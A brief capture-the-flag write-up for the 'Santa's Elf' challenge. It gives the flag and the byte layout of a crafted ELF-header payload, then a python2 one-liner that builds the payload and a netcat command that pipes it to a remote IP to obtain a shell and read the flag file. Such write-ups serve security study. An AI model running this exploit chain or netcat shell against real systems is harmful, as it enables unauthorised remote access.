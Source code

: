 ### Santa's Elf

**Flag: ACS_IXIA_CTF{not_the_elf_you_were_thinking_about}**

The payload is the following:
- 4 bytes from DAT_00100ad8 (ELF header, 0x00-0x03);
- 20 random bytes (0x04 - 0x17);
- 0x0000deadbeef (0x18 - 0x1f);
- 16 random bytes (0x20 - 0x2f);
- 7 (PROT_EXEC\|PROT_WRITE\|PROT_READ for mmap, 0x30 - 0x39).

Then build the payload and send it to the server in order to open a remote shell:
```
python2 -c 'print "\x7f\x45\x4c\x46" + "A" * 20 + "\xef\xbe\xad\xde" + "\x00" * 4 + "A" * 16 + "\x04\x00\x00\x00"' > payload
cat payload - | nc 141.85.224.118 31337
cat /home/ctf/flag
ACS_IXIA_CTF{not_the_elf_you_were_thinking_about}
```

[Back](../../ixia_ctf.md)
